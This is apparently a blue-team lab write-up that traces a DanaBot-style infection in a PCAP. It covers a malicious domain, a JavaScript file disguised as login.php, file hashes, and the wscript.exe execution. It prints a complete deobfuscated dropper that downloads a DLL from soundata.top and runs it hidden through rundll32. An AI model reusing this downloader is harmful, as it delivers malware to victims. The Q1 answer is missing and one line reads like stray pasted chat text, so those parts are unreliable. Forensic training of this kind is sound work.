**Scenario:** The SOC team has detected suspicious activity in the network traffic, revealing that a machine has been compromised. Sensitive company information has been stolen. Your task is to use Network Capture (PCAP) files and Threat Intelligence to investigate the incident and determine how the breach occurred.

**Q1:** Which IP address was used by the attacker during the initial access?

In the very first line in the PCAP file, we have a DNS query to a domain name [<u>portfolio.serveirc.com</u>](http://portfolio.serveirc.com).



When I look up the domain to virustotal site, this domain was marked malicious:



=\> it’s possible attacker use technique phishing to victim

=\> The IP of the attacker in initial access phase is:

**Q2:** What is the name of the malicious file used for initial access?

In the sequential packets, we can see the victim is getting a file call login.php.







and **filename**

The filename parameter suggests a default filename for the downloaded file. The value is enclosed in double quotes and follows ASCII encoding rules.\[1\]

Export the file and hash it:







JavaScript on one long line with no formatting is typical of minified or obfuscated code. A file named login.php that actually serves JS suggests a malware delivery server disguising its payload as a harmless web page. In the DanaBot context, this is likely the first-stage dropper: a script (run via wscript.exe or a browser) that downloads and launches the next stage, usually a DLL run through rundll32.

=\> This is actually an obfuscated JavaScript. The HTTP response header also reveals its true name.



=\> Answer: Allegato_708.js

**Q3:** What is the SHA-256 hash of the malicious file used for initial access?

=\> Answer: 847b4ad90b1daba2d9117a8e05776f3f902dda593fb1252289538acf476c4268

**Q4:** Which process was used to execute the malicious file?

Examine the deobfuscated code for references to WScript objects and functions:

access to [<u>Obfuscator.io</u>](http://obfuscator.io) site



This is full of script the tool deobfuscated:

<table>
<colgroup>
<col style="width: 100%" />
</colgroup>
<thead>
<tr class="header">
<th>
function _0x414360(_0x5c5160) {

var _0x119065 = '';

var _0x5a393f = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz".length;

for (var _0x3d45b7 = 0x0; _0x3d45b7 &lt; _0x5c5160; _0x3d45b7++) {

_0x119065 += "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz".charAt(Math.floor(Math.random() * _0x5a393f));

}

return _0x119065 + ".dll";

}

var _0x48a85a = _0x414360(0xa);

var _0x44bdd9 = new ActiveXObject("Scripting.FileSystemObject").GetSpecialFolder(0x2) + "\\" + _0x48a85a;

var _0x5da57f = WScript.CreateObject("MSXML2.XMLHTTP");

_0x5da57f.Open("GET", "http://soundata.top/resources.dll", false);

_0x5da57f.Send();

if (_0x5da57f.Status == 0xc8) {

var _0x3c8952 = WScript.CreateObject("ADODB.Stream");

_0x3c8952.Open();

_0x3c8952.Type = 0x1;

_0x3c8952.Write(_0x5da57f.ResponseBody);

_0x3c8952.Position = 0x0;

_0x3c8952.SaveToFile(_0x44bdd9, 0x2);

_0x3c8952.Close();

var _0x1e16b0 = WScript.CreateObject("Wscript.Shell");

_0x1e16b0.Run("rundll32.exe /B " + _0x44bdd9 + ",start", 0x0, true);

}

new ActiveXObject("Scripting.FileSystemObject").DeleteFile(WScript.ScriptFullName);
</th>
</tr>
</thead>
<tbody>
</tbody>
</table>

WSH = Windows Script Host

Windows Script Host is a built-in Windows component that lets you run script files (JScript, VBScript) directly on the operating system, without a browser. It has shipped with Windows since Windows 98.

Main parts

| Component      | Role                                                                                                                                                       |
|----------------|------------------------------------------------------------------------------------------------------------------------------------------------------------|
| wscript.exe    | GUI version. Runs scripts silently or with popup dialogs (WScript.Echo shows a message box). This is the default when you double-click a .js or .vbs file. |
| cscript.exe    | Console version. Runs in a terminal and prints output (WScript.Echo writes to the console).                                                                |
| Script engines | JScript (jscript.dll) and VBScript (vbscript.dll) interpret the code.                                                                                      |
| Host objects   | Objects like WScript, WScript.Shell, WScript.CreateObject that let scripts interact with Windows.                                                          |

What scripts can do through WSH

Through COM/ActiveX objects, a script gets broad access to the system:

- Files: Scripting.FileSystemObject (read, write, delete files, find special folders)

- Network: MSXML2.XMLHTTP (HTTP requests)

- Binary data: ADODB.Stream (save downloaded bytes to disk)

- Run programs: WScript.Shell .Run() / .Exec()

- Registry: WScript.Shell .RegRead() / .RegWrite()

- System info: WMI via GetObject("winmgmts:")

From code above, there are several lines are only valid under Windows Script Host:

- new ActiveXObject(...): COM object creation, which Edge doesn’t support

- WScript\[...\] (twice): the WScript object exists only in WSH

- The overall flow matches the usual JScript downloader pattern (your paste ends before the final step):

  1.  ActiveXObject method called with 0x2 plus a random 10-character filename: likely Scripting.FileSystemObject.GetSpecialFolder(2), the Temp folder

  2.  WScript.CreateObject(...) then .open('GET', url, false) and .send(): an XMLHTTP request

  3.  if (status == 200), then another WScript.CreateObject(...), .Type = 1, .Write(responseBody), .SaveToFile(path, 2): ADODB.Stream writing the payload to disk

  4.  A final WScript.CreateObject(...), probably WScript.Shell, to run the dropped file

Why that points to wscript.exe (but doesn’t prove it)

- No console I/O. The script never prints or reads. A script written to run under cscript.exe usually has Echo or StdOut calls. This one is built to run silently, which is how wscript.exe behaves by default.

- It hides its own activity. The 0x0 window style hides the rundll32.exe window. That matters most under wscript.exe, where the user would otherwise see nothing but a flash of a window. Under cscript.exe a console window would already be visible, which the author would likely want to avoid.

- Delivery context. The file came from a browser download, so the likely trigger is a user double-click, and the default handler for that is wscript.exe

=\> Answer: wscript.exe

**Q5:** What is the file extension of the second malicious file utilized by the attacker?

As we can see in the deobfuscated code above, the malicious file is trying to connect to domain soundata.top to download a file name resources.dll

=\> Answer: .dll

**Q6:** What is the MD5 hash of the second malicious file?

Export the second malicious file and hash it using md5sum utility on linux:





=\> Answer: e758e07113016aca55d9eda2b0ffeebe

# COMPLETION:



# REFERENCES:

*\[1\] content-disposition field: https://http.dev/content-disposition*
